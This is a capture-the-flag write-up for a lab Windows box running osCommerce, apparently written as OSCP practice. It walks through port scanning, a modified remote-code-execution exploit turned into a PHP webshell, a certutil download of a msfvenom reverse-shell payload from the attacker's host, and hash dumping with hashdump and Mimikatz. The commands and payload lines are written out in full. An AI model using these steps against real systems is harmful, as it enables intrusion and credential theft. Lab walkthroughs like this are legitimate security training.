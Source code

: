 Blueprint writeup(OSCP ✅ Metasploit)

### Nmap
`nmap -T4 -p- IP -vv`
```
Scanning 10.10.178.111 [65535 ports]
Discovered open port 445/tcp on 10.10.178.111
Discovered open port 80/tcp on 10.10.178.111
Discovered open port 3306/tcp on 10.10.178.111
Discovered open port 139/tcp on 10.10.178.111
Discovered open port 135/tcp on 10.10.178.111
Discovered open port 8080/tcp on 10.10.178.111
Discovered open port 443/tcp on 10.10.178.111

```

I normally try web services ports first. `80, 8080, 443`
The cms `osCommerce` is so obvious. All left to do is just to find the version for searching exploits.

### searchsploit
`searchsploit osCommerce 2.3.4`
```                                                                     |  Path
-------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                           | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                         | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                      | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                       | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                          | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                            | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                            | php/webapps/44374.py
-------------------------------------------------------------------------------------- ---------------------------------
```

Those 2 seems what we want
```
osCommerce 2.3.4.1 - Arbitrary File Upload               
osCommerce 2.3.4.1 - Remote Code Execution  
```
Both of them works as you may see it been used in some other writeups. But the first one requires installing a database that is too loud might alert the admin users. Let's go with the latter one.

`searchsploit -m 44374.py` to make a copy to the current path. then open it with your favourite editor. I did with `subl 44374.py` since I use sublime.

Can also reach it on exploit db. https://www.exploit-db.com/exploits/44374

line17 has a double slash typo `base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"` it's no big deal but it better to fix it by simply remove it.

`base_url = "http://localhost/oscommerce-2.3.4.1/catalog/"`

### Real journey starts now
After setting up your baseurl and target url, you can just run the script `python3 44374.py`.
Found the system blocked the `system` keyword for php. 
A little googling shows some alternative.
https://stackoverflow.com/questions/7093860/php-shell-exec-vs-exec
https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80

`shell_exec` and `exec`

#### windows trick/tip/hole here
I tried to see if `shell_exec` or `exec` can be executed.
```
// on Kali
sudo tcpdump -i tun0 icmp
// on 44374.py
payload += 'shell_exec("ping -c 5 ip");'
```
Nothing happened. I can't get them back and it seems not been executed at all. I lost hours here as I was trying some random reverse shell plus other wrong things. **SOLVER**: `ping` for windows `-c` is a wrong parameter. `-n` is what we want.

### Python and PHP payload?
I didn't notice this first. You'll need to find a way out to see the output since your payload is in PHP comments. But the script is in Python.
I didn't try `var_dump(); die();`. It might work for you. These are the final code changes for the webshell.

```
payload = '\');'

# payload += 'exec("ping -n 5 10.x.x.x");'
# payload += '$var = shell_exec("ping -n 5 10.x.x.x");'
# payload += 'echo $var;'

payload += '$var = shell_exec($_GET["cmd"]);'
payload += 'echo $var;' # output make it a real webshell

payload += '/*'
```

### Root flag
```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=whoami
```
You already have root by running `whoami`. `type c:\....\desktop\root.txt.txt` 



### Both OSCP approved Metasploit Usage and non-Metasploit way
https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide

OSCP official doc: You may use the following against all of the target machines:

* multi handler (aka exploit/multi/handler)
* msfvenom
* pattern_create.rb
* pattern_offset.rb

To get a revershell only need the first two.

Generate the payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=12345 -f exe > shell.exe

and make it available for the target to reach
python3 -m http.server 80
```

### windows target get payload from attack(transfer files)
https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/


```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=certutil -urlcache -f http://ip/shell.exe shell.exe
```

after setup listeners run `shell.exe` to trigger it from the webshell

#### Not using Metasploit
`rlwrap nc -lvnp 12345` to get a better reverse shell. Then upload a `Mimikatz.exe` just like uploading the `shell.exe`.  Use it with commanding `lsadump::sam` to reveal all the hashes.

#### Metasploit exploit/multi/handler
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 12345
exploit
```
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.x.x.x:12345 

[*] Sending stage (175174 bytes) to 10.10.173.99
[*] Meterpreter session 1 opened (10.x.x.x:12345 -> 10.10.173.99:49500) at 2021-05-16 12:02:18 +1200

meterpreter > hashdump
Administrator:500:xxxx:xxxx:::
Guest:501:xxxx:xxxxxxx:::

or using Mimikatz as well
meterpreter > load mimikatz
meterpreter > lsa_dump_sam
hashes shows here..
```
Just run `hashdump` after the shell connected. The hash between `:hash:::`is what you want to crack for. Job well done.

